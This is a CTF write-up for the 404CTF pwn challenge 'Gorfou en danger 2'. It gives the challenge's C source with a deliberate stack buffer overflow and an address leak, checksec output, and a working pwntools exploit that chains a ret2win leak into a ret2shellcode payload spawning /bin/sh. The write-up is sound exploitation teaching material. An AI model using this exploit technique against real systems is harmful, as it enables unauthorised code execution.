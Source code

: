 ```yaml
---
layout: post
title: Gorfou en danger 2
date: 10/06/2025
categories: [ctf, pwn]
tag: [pwn, ctf]
author: Paw
description : wu for Gorfou en danger 2 in 404CTF
---
```


```C
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

int main(void);

void menu() {
    puts("      __                                                                       ");
    puts("     /\\ \\                                                                    ");
    puts("    /  \\ \\      >>========================================================<< ");
    puts("   / /\\ \\ \\     ||░█▀▄░█▀▀░█▀▀░█▀▀░░░█▀▀░█▀█░█▀█░█▀▀░█▀█░█░░░█▀▀░░░█░█░▀▀▄||");
    puts("  / / /\\ \\ \\    ||░█░█░█░█░▀▀█░█░█░░░█░░░█░█░█░█░▀▀█░█░█░█░░░█▀▀░░░▀▄▀░▄▀░||");
    puts(" / / /__\\_\\ \\   ||░▀▀░░▀▀▀░▀▀▀░▀▀▀░░░▀▀▀░▀▀▀░▀░▀░▀▀▀░▀▀▀░▀▀▀░▀▀▀░░░░▀░░▀▀▀||");
    puts("/ / /________\\  >>========================================================<<  ");
    puts("\\/___________/                                                                ");
}

void debug_info(void) { 
    // our very own "info proc map"
    printf("main address : %p\n", &main);
    printf("printf address : %p\n", *(uint64_t *)0x403008);
    void* local_var = NULL;
    printf("Stack address : %p\n", &local_var);
    return;
}

void take_command() {
    char command[0x100];
    
    printf("> ");
    read(0, command, 0x130);
    printf("Commande inconnue\n");
}

int main(void) {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    menu();

    printf("Terminal de contrôle à distance de la station orbilate Penrose\n");

    while (1) {
        take_command();
    }

    return 0;
}
```
In the challenge source code we can see a function called : `debug_info`

After a simple checksec we can see that NX protection is disable and there is no PIE :
```bash
    gorfou-en-danger-2 checksec --file=chall      
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   RW-RUNPATH   43 Symbols	 No	0		2		chall

```
An exploit model is given in the challenge. This model can generate shellcode, and it is not necessary to specify that this shellcode will be useful.

```C
void debug_info(void) { 
    // our very own "info proc map"
    printf("main address : %p\n", &main);
    printf("printf address : %p\n", *(uint64_t *)0x403008);
    void* local_var = NULL;
    printf("Stack address : %p\n", &local_var);
    return;
}
```

This function leak the stack adress. 

With the help of a little ret2win we will go to the `debug_info` function.

> we have already dealt with this subject

Sooo, we can stock the leak and then do a simple ret2shellcode

> : shellcode + some junk until the EIP/RIP adress + adress of the bottom of the stack 

wu: 
```python
from pwn import *

exe = ELF("./chall")
context.binary = exe

def conn():
    if args.LOCAL:
        r = process("./chall")
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = process("./chall")
    return r

def generate_shellcode():
    shellcode_asm = """
        xor     rdx, rdx
        movabs  rbx, 0x68732f6e69622fff
        shr     rbx, 8
        push    rbx
        mov     rdi, rsp
        xor     rax, rax
        push    rax
        push    rdi
        mov     rsi, rsp
        mov     al, 0x3b
        syscall 
        push    1
        pop     rdi
        push    0x3c
        pop     rax
        syscall 
	"""
    shellcode = asm(shellcode_asm, bits=64)
    return shellcode


def main():
    r = conn()
    r.recvuntil(b"> ")
    debug_addr = p64(0x00000000004004ed)
    main_addr = p64(0x0000000000400584)
    sc = generate_shellcode()
    offset = 264
    p1 = b'a'*offset + debug_addr + main_addr 
    r.sendline(p1)
    leak = r.recv().split(b' : ')

    main = int(leak[1].split(b'\n')[0][2:], 16)
    printf = int(leak[2].split(b'\n')[0][2:], 16)
    stack = int(leak[3].split(b'\n')[0][2:], 16)

    print(f'main={hex(main)}')
    print(f'printf={hex(printf)}')
    print(f'stack={hex(stack)}')
    
    pay = sc
    pay += b'a' * (offset - len(sc))
    pay += p64(stack - 0x100)
    r.sendline(pay)
    r.interactive()

if __name__ == "__main__":
    main()
```
